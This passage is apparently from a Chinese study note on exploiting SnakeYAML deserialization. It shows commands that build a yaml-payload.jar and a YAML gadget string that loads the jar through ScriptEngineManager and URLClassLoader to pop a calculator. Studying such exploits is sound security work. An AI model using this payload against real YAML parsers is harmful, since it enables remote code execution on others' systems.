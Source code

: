 ![image-20220125143536995](snakeyaml.assets/image-20220125143536995.png)

打包成jar包

```
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

![image-20220125143635368](snakeyaml.assets/image-20220125143635368.png)

payload-弹计算器

```java
String evilJar = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"file:///payload.jar\"]]]]";
```

测试效果
